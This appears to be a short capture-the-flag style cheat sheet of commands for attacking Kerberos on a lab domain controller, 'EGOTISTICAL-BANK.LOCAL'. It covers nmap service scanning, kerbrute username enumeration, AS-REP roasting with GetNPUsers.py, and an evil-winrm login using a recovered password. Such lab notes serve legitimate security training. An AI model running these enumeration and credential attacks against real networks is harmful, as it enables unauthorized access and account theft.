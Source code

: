 ```text
# Version detection + NSE scripts
nmap -Pn -sV -p $port --script="banner,krb5-enum-users" -oN "tcp_port_kerberos_nmap.txt" $ip
```

brute force kerberos names
```
kerbrute userenum -d EGOTISTICAL-BANK.LOCAL /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc 10.129.95.180
```

If you have a username, see if you can get hash without password
```
GetNPUsers.py Egotistical-bank.local/fsmith -dc-ip 10.129.95.180 -request -no-pass
```

Once you get the creds
```
evil-winrm -i 10.129.95.180 -u fsmith -p Thestrokes23
```